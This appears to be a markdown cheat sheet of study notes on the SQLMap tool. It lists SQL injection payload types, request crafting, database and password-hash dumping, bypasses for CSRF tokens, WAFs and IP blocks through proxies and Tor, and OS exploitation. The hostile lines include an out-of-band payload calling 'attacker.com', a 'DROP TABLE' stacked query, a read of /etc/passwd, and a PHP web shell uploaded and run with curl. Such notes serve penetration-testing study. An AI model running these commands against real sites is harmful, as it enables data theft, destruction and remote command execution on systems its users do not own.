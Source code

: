 # SQLMap
- Free & Open Source
- Written in Python
- **Used for exploiting SQL Injection (SQLi) vulnerabilities**

## Installation
The easy way:
`$ sudo apt install sqlmap`

The hard[er] way:
```
$ git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

# Then run it
$ python sqlmap.py
```

## Supported Databases

| Database            | Database         | Database        | Database           |
|---------------------|------------------|-----------------|--------------------|
| MySQL               | Oracle           | PostgreSQL      | Microsoft SQL Server |
| SQLite              | IBM DB2          | Microsoft Access| Firebird           |
| Sybase              | SAP MaxDB        | Informix        | MariaDB            |
| HSQLDB              | CockroachDB      | TiDB            | MemSQL             |
| H2                  | MonetDB          | Apache Derby    | Amazon Redshift    |
| Vertica             | Mckoi            | Presto          | Altibase           |
| MimerSQL            | CrateDB          | Greenplum       | Drizzle            |
| Apache Ignite       | Cubrid           | InterSystems Cache | IRIS             |
| eXtremeDB           | FrontBase        |                 |                    |

## Heavily Supported Databases

| Database            | Database         | Database        | Database           | Database      |
|---------------------|------------------|-----------------|--------------------|---------------|
| MySQL               | PostgreSQL      | Oracle          | Microsoft SQL Server | Sybase       |
| Vertica             | IBM DB2         | Firebird        | MonetDB            |               |


### Get help
`$ sqlmap -h`

### Get MORE help (advanced version)
`$ sqlmap -hh`

## Types of SQL Injections

- The default is: `BEUSTQ`
  - B: Boolean-based blind
    - Ex. `AND 1=1`
    - Considered to be the most common type of SQLi vulnerability
  - E: Error-based
    - Ex. `AND GTID_SUBSET(@@version,0)`
    - Considered to be the fastest injection type, as it works by retrieving data in chunks
  - U: Union query-based
    - Ex. `UNION ALL SELECT 1,@@version,3`
    - Considered to be the fastest injection type
    - Ideally, we could get the entire database in one command
  - S: Stacked queries
    - Ex. `; DROP TABLE users`
    - Also known as "piggy backing"
    - "Stacking" must be supported by the database we are attacking
  - T: Time-based blind
    - Ex. `AND 1=IF(2>1,SLEEP(5),0)`
    - Considerably slower than Boolean-based blind SQL injection is not applicable
  - Q: Inline queries
    - Ex. `SELECT (SELECT @@version) from`
    - Works as an imbedded query within another query
    - Uncommon, as the website must be written in a certain way

- Advanced:
  - Out-of-band
    - Ex. `LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))`

# Usage

- To run a basic exploitation against a target, we can do: `$ sqlmap -u "https://<target>?<param>=1" --batch`

## Running SQLMap on an HTTP Request

### cURL
- It's not uncommon to mess up correct SQLi vulnerability detection through overcomplication or forgetting cookes
- We can simplify this process by:
  - Right-clicking on any given request in the Network (Monitor) panel in the Developer Tools
  - Clicking `Copy as cURL`
  - Replacing `curl` with `sqlmap`
- This may be seen as: `$ sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'`

#### GET/POST Requests
- `GET` parameters are privded with the usage of option `-u` / `--url`
- `POST` parameters are provided with the usage of option `--data`
  - Ex. `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`
  - In the above instance, `uid` and `name` will be tested for SQLi
  - If we are already confident, say `uid` was vulnerable, we could add `-p uid` or `*`
    - `sqlmap 'http://www.example.com/' --data 'uid=1&name=test' -p uid`
    - `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'`

#### Full HTTP Requests
- If we need to use the full HTTP request, we can specify the `-r` flag, followed by the request
- We can find the request in `Burp`
  - Then, copy/paste this file into a file, and specify the file following the `-r` flag

Example HTTP Request (`req.txt`):
```
GET /?id=1 HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
If-Modified-Since: Thu, 17 Oct 2019 07:18:26 GMT
If-None-Match: "3147526947"
Cache-Control: max-age=0
```

Then: `$ sqlmap -r req.txt`

#### Custom SQLMap Requests
- When running a custom SQLMap command, we will likely need a few switches
  - **Session Cookie**: We can specify the session cookie in a few ways
    - `$ sqlmap ... --cookie='PHPSESSID=<cookie>'`
    - `$ sqlmap ... -H='Cookie:'PHPSESSID=<cookie>'`
    - `$ sqlmap ... --header='Cookie:PHPSESSID=<cookie>'`
  - **Random Agent**: We can use the `--random-agent` switch to randomly select a user-agent header value
  - **Method**: We can specify the HTTP method (as there are many) with the `--method` switch
  - **We can SQLi exploit more than just parameters. We may also exploit any other header, such as cookies
    - `$ sqlmap ... --cookie='id=1*'`

#### Custom HTTP Requests
- It is good to note that we may not only structure HTTP requests as we normally do (eg. `id=1`), but we may also use JSON (eg. `{"id":1}`) and XML (eg. `<element><id>1</id></element>`)

## Handling SQLMap Errors

- Display Errors: `--parse-errors`
- Store the Traffic: `-t <output file`
- Verbose Output: `-v <level [eg. 6]>`
- Proxy: `--proxy` to redirect through a MiTM proxy, such as Burp

## Attack Tuning

- Every payload sent to the target consists of:
  - vector (eg, `UNION ALL SELECT 1,2,VERSION()`): central part of the payload, carrying the useful SQL code to be executed at the target.
  - boundaries (eg `'<vector>-- -`): prefix and suffix formations, used for proper injection of the vector into the vulnerable SQL statement.
    - `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"`

### Level/Risk
- `--level`: 1-5 (default: 1)
- `--risk`: 1-3 (default 1)

### Advanced Tuning
- **Status Codes**
-   `--code=<code>`
  - `200`: TRUE
  - `500`: FALSE
- **Titles**
-   `--titles <title>` compares title of HTML page (<title> tag)
- **Strings**
  - `--string=<string>`
    - `<string>` may be a value such as success or failure, or something totally different
- **Text-only**
  - `--text-only`: only shows visible content (eg. not <script>, <style>, <meta>, etc tags)
- **Techniques**
  - `technique=<technique>`
    Ex. `--technique=BEU` for Boolean-Based Blind, Error-Based, and UNION-query payloads
- **UNION SQLi Tuning**
  - `union-cols=<number_of_cols>`
    - Ex. `--union-cols=17` if we know the number of columns of the vulnerable SQL query
  - `--union-char='<character>'`
  - `--union-from=<table>`
 
## Database Enumeration

### SQLMap Data Exfiltration

- SQLMap has a predefined set of queries for all supported DBMSes
  - `--banner`: Database version banner
  - `--current-user`: Current user name
  - `--current-db`: Current database name
  - `--is-dba`: Checking if the current user has DBA (administrator) rights
  - `--passwords`: Password hashes
  - `--hostname`:  Hostname
  - Ex. `$ sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba`
  - `--tables -D <database>`: Look at a tables in database <database>
  - `--dump -T <table> -D <database>`: Look at data in table <table> in database <database>
  - `--dump -T <table> -D <database> **-C <column>,<column2>**`: Only show certain columns
  - `--dump -T <table> -D <database> **--start=2 --stop=3**`: Specify start and stop rows (inclusive)
  - `--dump -T <table> -D <database> **--where="<condition>"**`: Get content of table based on WHERE condition
  - `--dump -D <database> --exclude-sysdbs`: Exclude system databases
  
**Advanced Commands**
- `--schema`: Retrieve the structure of all tables
- `--search <query>`: Search for databases, tables, and columns of interest
  - Ex. `--search -T user`: Search tables containing `user` keyword
  - Ex. `--search -C pass`: Search columns containing `pass` keyword

**Bypassing Web Application Protections**
- Anti CSRF (CSRF is most common)
  - To bypass this, we can append `--csrf-token="csrf-token"` to our command
  - Ex. `$ sqlmap -u "http://<target>" --method POST --data "id=1&t0ken=PLACEHOLDER" --csrf-token="t0ken" --dump`
- Unique Value Bypass
  - Some web pages require unique values to be provided in predefined parameters
    - This means we do not have to parse the page
  - To bypass this, we can append `--randomize=<parameter-name>` to our command
    - Ex. `$ sqlmap -u "http://<target>/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI`
- Calculator Parameter Bypass
  - This is used when a web app expects a parameter value to be calculated based upon some other parameter
  - To bypass this, we can append `--eval="<python_code>"` to our command
    - Ex. `$ sqlmap -u "http://<target>/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI`
- IP Address Concealing
  - If we need to conceal our ip address, or if we have been blacklisted:
    - We can use the `--proxy` option
      - We can view our proxies with `--proxy-file`
      - Ex. `--proxy="socks4://177.39.187.70:33283"`
    - We can use the TOR network
      - `--check-tor`: Confirm TOR is working appropriately (`Congratulations` will appear in the response)
      - `--tor`: SQLMap will automatically try to find the local port and use it appropriately
  - WAF Bypass
  - User-agent Blacklisting Bypass
  - Tamper Scripts
  - Miscellaneous Bypass
    - Chunked transfer encoding: Splits the POST request's body into so-called "chunks," which bypasses blocked SQL keywords
      - `--chunked`
    - HTTP parameter pollution (HPP): Payloads are split similarly as with chunking, but between different of the same parameter names (eg. `?id=1&id=UNION&id=SELECT&id=username,password&id=FROM&id=users...`)

**OS Exploitation**
- Reading Local Files
  - `--file-read "/etc/passwd"`
    - This file is saved: `$ cat ~/.sqlmap/output/www.example.com/files/_etc_passwd`
  - We can write files
  ```
  $ echo '<?php system($_GET["cmd"]); ?>' > shell.php
  $ sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
  
  # Success:
  [17:54:28] [INFO] the local file 'shell.php' and the remote file '/var/www/html/shell.php' have the same size (31 B)
  
  # Execute it
  $ curl http://www.example.com/shell.php?cmd=ls+-la
  ```
- Getting an OS shell: `--os-shell`

# Understanding the output

- Common messages you may receive include:
  - **URL content is stable**: `target URL content is stable`
    - No major changes between responses in case of continuous identical requests
  - **Parameter appears to be dynamic**: `GET parameter '<param>' appears to be dynamic`
    - A "dynamic" parameter is one that would result in a change in response
      - This is desirable (as it is easy to determine
      - The parameter may be linked to a database
      - If the parameter is static, it may be an indicator the vvalue of the tested parameter is nont processed by the target
  - **Parameter might be vulnerable to XSS attacks**: `heuristic (XSS) test shows that GET parameter '<parameter>' might be vulnerable to cross-site scripting (XSS)`
    - This is an example of a DMBS error
    - Good indication of potential SQLi
    - SQLMap sent an intentionally invalid value (eg. ?<parameter>=1",)..).))')
    - **Not proof of SQLi**
  - **Back-end DBMS is '...'**: `it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]`
    - SQLMap normally tests for all supported DBMSes
    - If there is a clear DBMS in use, we can narrow down payloads to that specific DBMS
  - **Level/risk values**: `for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]`
    - May extend specific tests for a DBMS beyond regular tests, assuming we clearly understand the target's DBMS
  - **Reflective values found**: `reflective value(s) found and filtering out`
    - Simply a warning that parts of the used payloads are found in the response
      - May cause problems to automation tools, as it represents junk
      - However, SQLMap filters out such junk before comparing the original page content (most of the time)
  - **Parameter appears to be injectable**: `GET parameter '<parameter>' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="luther")`
    - Indicates the parameter is injectable
      - May be a false-positive
        - SQLMap performs extensive testing consisting of simple logic checks for removal of false-positive findings to check for this
    - `with --string="luther"`: indicates SQLMap recognized and user the papearance of constant string value `luther` in the response for distinguishing `TRUE` from `FALSE` responses
      - Important as, in such cases, there is no need for the usage of advacned internal mechanisms, such as dynamicity/reflection or fuzzy comparison of responses, which cannot be considered as false-positive
  - **Time-based comparison statistical model**: `time-based comparison requires a larger statistical model, please wait........... (done)`
      - SQLMap uses a statistical model for the recognition of regular and (deliberately) delayed target responses
      - For this model to work, there is a requirement to collect a sufficient number of regular response times
        - This way, SQLMap can statistically distinguish between the deliberate delay even in the high-latency network environments
  - **Extending UNION query injection technique tests**: `automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found`
    - UNION-query SQLi checks require considerably more requests for successful recognition of usable payload than other SQLi types
    - To lower the testing time per parameter, especially if the target does not appear to be injectable, the number of requests is capped to a constant value
    - If there is a good chance the target is vulnerable, especially as one other (potential) SQLi technique is found, SQLMap extends the default number of requests for UNION query SQLi, because of a higher expectancy of success
  - **Technique appears to be usable**: `ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test`
    - `ORDER BY` is checked for usability
  - **Parameter is vulnerable**: `GET parameter '<target>' is vulnerable. Do you want to keep testing the others (if any)? [y/N]`
    - **One of the most important messages of SQLMap**
    - Means the parameter was found to be vulnerable to SQL injections
    - We may stop here, or continue on to find more vulnerabilities
  - **SQLMap identified injection points**: `sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:`
    - A lsit of all injection points with type, title, and payloads follows
      - Final proof of successful detection and exploitation of found SQLi vulnerabilities
      - SQLMap only lists those findings which are provably exploitable (ie. usable)
  - **Data logged to text files=**: `fetched data logged to text files under '/home/user/.sqlmap/output/www.example.com`
    - Indicates the local file system location used for storing logs, sessions, output data, etc (of a target)
    - SQLMap attempts to reduce the required target requests as much as possible, depending on the session files' data








